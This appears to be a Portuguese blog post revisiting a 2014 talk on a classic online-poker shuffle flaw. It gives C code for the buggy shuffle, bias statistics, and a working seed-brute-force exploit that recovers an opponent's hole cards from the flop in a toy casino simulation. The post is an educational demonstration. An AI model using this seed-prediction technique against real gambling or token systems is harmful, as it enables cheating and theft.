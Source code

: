 ```yaml
---
categories:
- coding
date: '2021-02-26'
title: Lessons From Online Poker Exploit
---
```


Em 2014 eu palestrei na trilha de segurança do TDC em São Paulo um tema que me deixou muito animado: um exploit baseado em falhas de programação em um código de 10 linhas. O código era tão simples que achei válido traduzir para C e demonstrar como atacar uma simulação de cassino online.

Esta palestra (e o código) se perdeu no tempo, mas eu anotei o nome da pesquisadora que escreveu o post pelo qual me baseei: Laura Diane Hamilton (que também estuda Machine Learning em seu blog). [Seu post] comenta sobre uma história de 1990 quando hackers se aproveitaram de falhas básicas no algoritmo de embaralhamento de cartas de pôquer.

O código original estava escrito em Pascal, mas é facilmente traduzido para C:

    unsigned char Card[52];
    unsigned char CurrentCard = 0;
    unsigned char JustShuffled = 0;
    
    void DeckShuffle()
    {
      unsigned char ctr;
      unsigned char tmp;
      unsigned char random_number;
    
      /* Fill the deck with unique cards */
      for( ctr = 0; ctr < 52; ctr++ )
        Card[ctr] = ctr + 1;

      /* Generate a new seed based on the system clock */
      srand(time(NULL));

      /* Randomly rearrange each card */
      for( ctr = 0; ctr < 52; ctr++ )
      {
        random_number = rand() % 51;
        tmp = card[random_number];
        card[random_number] = card[ctr];
        card[ctr] = tmp;
      }

      CurrentCard = 0;
      JustShuffled = 1;
    }

Fiz um código para compilar e rodar o embaralhador de cartas que [embaralha e imprime] a saída em cada nova execução para podermos observar mais facilmente os bugs encontrados por Hamilton. A falha número 1, o "An Off-by-One Error", pode ser feita em C também, se você usar a função rand() da maneira como está no código:

    random_number = rand() % 51;

É um erro simples de ser cometido por programadores incautos, que querem expressar na verdade a obtenção de um número aleatório entre 1 e 52 e ao mesmo tempo obter o índice correto 0-based de um array. No entanto, o resto de uma divisão por N sempre irá cair entre 0 e N-1, já obtendo o índice correto em C.

    random_number = rand() % 52;

Para observar o que Hamilton quer dizer com "a 52a. carta nunca irá cair na 52a. posição" é possível forçar um loop nesse estilo:

    /* call only once in main */
    srand(time(NULL));

    do
    {
      DeckShuffle();
    }
    while( Card[51] != 52 );

Este loop nunca irá terminar. Faça o teste. Depois compare com a rapidez com que o loop encontra a carta 52 em qualquer outra posição.

A segunda falha, "The Shuffle Isn't Uniform", diz respeito à distribuição não-uniforme da igual probabilidade de certas cartas estarem em qualquer posição da pilha. Da maneira com que é implementado o algoritmo essa distribuição é enviesada. Temos como provar isso atribuindo pesos a cada embaralhada e depois de um certo tempo exibir os totais:

    int CardStats[52];
    int j, j2;

    for( j = 0; j < 1000; ++j )
    {
      for( j2 = 0; j2 < 1000; ++j2 )
      {
        DeckShuffle();
        for( i = 0; i < 52; ++i )
          if( Card[i] == i+1 )
            CardStats[i]++;
      }
    }

    printf("cards stats: \n");
    for( i = 0; i < 52; ++i )
    {
      printf("%d ", CardStats[i]);
    }

A versão original do algoritmo rodando um milhão de vezes demonstra o viés de forma descarada:

    cards stats:
    19270 18869 18685 18442 
    18348 18024 18119 17647 
    17612 17388 17661 17360 
    17183 17018 17176 16621 
    16705 16522 16337 16599 
    16499 16238 16315 15970 
    16294 16388 16294 16418 
    16463 16313 16462 16491 
    16450 16384 16674 16736 
    16577 16879 16933 17159 
    17417 17344 17672 18025 
    17883 18053 18107 18691 
    19042 19152 19559 0

Com a correção desse viés (e do bug da 52a. carta) aplicada:

    random_number = rand() % (ctr - 52) + ctr;

O resultado se torna muito mais uniforme:

    cards stats:
    19116 19035 19371 19328 
    19293 19327 19308 19277 
    19412 19231 19314 19192 
    19200 19229 19461 19398 
    19299 19314 19452 19291 
    19329 19003 19354 19282 
    19319 19237 19255 19149 
    19321 19291 19123 19266 
    19237 19443 19355 19318 
    19321 19127 19147 19277 
    19250 19307 19353 19169 
    19047 19225 19310 19297 
    19298 19423 19370 19213

No entanto, o pior bug talvez seja a união entre a terceira e a quarta falhas apontadas pela pesquisadora: "Using a 32-bit Seed" + "Using the System Clock as a Seed". Com esses dois unidos o hackerismo fica à solta, pois além das possibilidades de embaralhamento ficarem restritas em 2^32 o uso do clock limita em 86,400,000 milissegundos por dia da função random do Pascal. Em C poderia ser feito algo semelhante.

Um range muito específico de geração da semente do gerador de números aleatórios pode criar uma tabela maleável de possibilidades. Com isso em mãos, de acordo com Hamilton, uma vez que o atacante saiba pelo menos cinco cartas é possível fazer uma busca rápida em um range pequeno possibilidades. Em um jogo de pôquer isso é possível apenas com duas cartas em sua mão e as três cartas na mesa (flop).

Com base nesse comportamento vamos criar um [exploit] que recebe as três cartas do flop fornecidas pelo atacante que está no jogo e que inicia uma busca a partir do horário atual para trás. Conforme o programa encontra matches dessas três cartas juntas ele exibe o deck completo de cartas, a partir do qual o atacante pode verificar se suas cartas constam na distribuição.

    time(&curr_time);

    printf("how is the flop? ");
    scanf("%d %d %d", &flop1, &flop2, &flop3);

    while( 1 )
    {
      DeckShuffle(curr_time);

      if( Card[0] == flop1 && Card[1] == flop2 && Card[2] == flop3 )
      {
        printf("%d: ", (int) curr_time);
        for( i = 0; i < 52; ++i )
        {
          printf("%d ", Card[i]);
        }
        printf("\n");
      }

      curr_time--;
    }

Por sua vez o [cassino] rodará o algoritmo bugado que já vimos. Para simplificar ele já pergunta para o jogador #2 se ele sabe quais são as cartas do jogador #1. Se ele não souber o programa diz ser ainda seguro, mas se acertar isso é revelado.

    DeckShuffle();
  
    printf("(for you) your cards, player#%d: %d %d\n", 
      player, Card[3 + (player-1) * 2], Card[3 + (player-1) * 2 + 1]);
    printf("(for all) flop: %d %d %d\n", Card[0], Card[1], Card[2]);

    player1_card1 = Card[3];
    player1_card2 = Card[4];
  
    printf("do you know which cards have player #1? ");
    scanf("%d %d", &player1_guess1, &player1_guess2);

    if( player1_guess1 == player1_card1 
      && player1_guess2 == player1_card2 )
    {
      printf("acerto, miseravi!\n");
    }
    else
    {
      printf("no no no, I am still secure!\n");
    }

Para rodar os programas basta iniciar o cassino e copiar as cartas do flop. Em seguida rodar o exploit e colar o flop. A partir daí ele começa a calcular e quando houver um deck em que aparecem as suas cartas copiar e colar as cartas do adversário, ou seja, o jogador #1, que são as cartas logo depois do flop.

    >cassino.exe
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1?
    
    >cassino_exploit.exe
    how is the flop? 9 22 15
    1614385852: 9 22 15 6 12 1 21 14 ...
    1614222117: 9 22 15 4 36 16 25 5 ...
    1613983918: 9 22 15 32 31 14 16 ...
    ^C
    
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1? 6 12
    acerto, miseravi!

[Seu post]: http://www.lauradhamilton.com/random-lessons-online-poker-exploit
[embaralha e imprime]: shuffle_cards.c
[exploit]: cassino_exploit.c
[cassino]: cassino.c